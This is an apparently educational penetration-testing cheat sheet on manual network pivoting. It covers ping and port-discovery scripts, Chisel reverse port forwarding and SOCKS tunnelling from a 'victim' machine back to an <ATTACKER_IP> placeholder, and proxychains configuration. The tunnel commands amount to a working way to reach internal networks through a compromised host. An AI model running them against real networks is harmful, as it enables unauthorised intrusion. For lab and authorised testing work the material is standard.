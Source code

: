 # Pivoting

Pivoting is a crucial technique in ethical hacking and penetration testing, allowing attackers to extend their reach within a network. The provided Cheatsheet outlines the process of pivoting manually, without relying on tools like Metasploit. Let's break down the steps:

#### 1. Discover Active Machines

* Use the `host_discovery.sh` script to ping all IPs on the specified network.
*   Example:

    ```bash
    bash host_discovery.sh 10.10.2
    ```

#### 2. Discover Open Ports

* Utilize the `port_discovery.sh` script to discover open ports on the active machines.
*   Example:

    ```bash
    bash port_discovery.sh <IP_ADDRESS>
    ```

#### 3. Port Forwarding with Chisel

* Download and use Chisel for port forwarding. Transfer the Chisel binary to the victim machine.
*   On the attacker's machine:

    ```bash
    ./chisel server --reverse -p 1234
    ```
*   On the victim machine:

    ```bash
    ./chisel client <ATTACKER_IP>:1234 R:80:<TARGET_IP>:80
    ```

#### 4. Tunneling Networks

<figure><img src="../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Create a tunnel between networks using Chisel for network pivoting.
*   On the attacker's machine:

    ```bash
    ./chisel client <ATTACKER_IP>:1234 R:socks
    ```
* Modify `/etc/proxychains.conf` to use the created tunnel.

<figure><img src="../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption><p>uncomment this line</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption><p>in the end of the file </p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (11) (1) (1).png" alt=""><figcaption><p>Result</p></figcaption></figure>

#### Automation with Pivoting\_Enum Bash Script

* Transfer and execute the `pivoting.sh` script on the victim machine.
*   Example:

    ```bash
    bash pivoting.sh NETWORK
    ```

